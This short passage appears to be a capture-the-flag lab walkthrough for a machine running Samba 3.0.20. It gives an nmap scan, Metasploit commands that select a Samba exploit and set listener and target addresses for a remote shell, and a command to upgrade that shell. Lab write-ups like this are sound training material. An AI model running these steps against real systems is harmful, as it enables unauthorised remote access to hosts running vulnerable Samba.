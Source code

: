 Nmap scan of top 1000 ports

```
nmap -sC -sV --top-ports 1000 10.129.137.159
```

Samba version 3.0.20 is running on port 445

run metasploit and configure LHOST, LPORT, RHOST, and RPORT

```
msfconsole

search samba 3.0.20
use 0 
set LHOST, LPORT, RHOST, and RPORT
```

get a better shell

```
 script /dev/null -c /bin/bash
 ```

Find the flags by moving around the attacking box.